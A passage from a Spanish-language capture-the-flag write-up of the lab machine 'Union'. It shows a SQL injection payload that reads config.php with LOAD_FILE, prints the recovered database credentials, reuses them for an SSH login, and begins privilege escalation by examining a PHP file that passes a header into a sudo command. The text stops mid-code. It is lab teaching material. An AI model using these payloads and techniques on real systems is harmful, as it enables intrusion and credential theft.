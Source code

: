 ```
player=' union select LOAD_FILE('/var/www/html/config.php')-- - 
```

Estás son las `credenciales` a la base de datos `november` y podemos utilizarlas para intentar conectarnos por `SSH`

```
$username = "uhc";
$password = "uhc-11qual-global-pw";
```

## Intrusión

Reutilizamos las credenciales para la base de datos encontradas y nos `conectamos` por `SSH`

```
# ssh uhc@10.129.96.75   
uhc@10.129.96.75's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
uhc@union:~$ whoami
uhc
```

## Privilege Escalation

Inspeccionando archivos he encontrado este interesante debido a que se `ejecuta` un `comando` como `sudo`

```
uhc@union:/var/www/html$ cat firewall.php 
<?php
require('config.php');

if (!($_SESSION['Authenticated'])) {
  echo "Access Denied";
  exit;
}

?>
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->

<div class="container">
		<h1 class="text-center m-5">Join the UHC - November Qualifiers</h1>
		
	</div>
	<section class="bg-dark text-center p-5 mt-4">
		<div class="container p-5">
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
```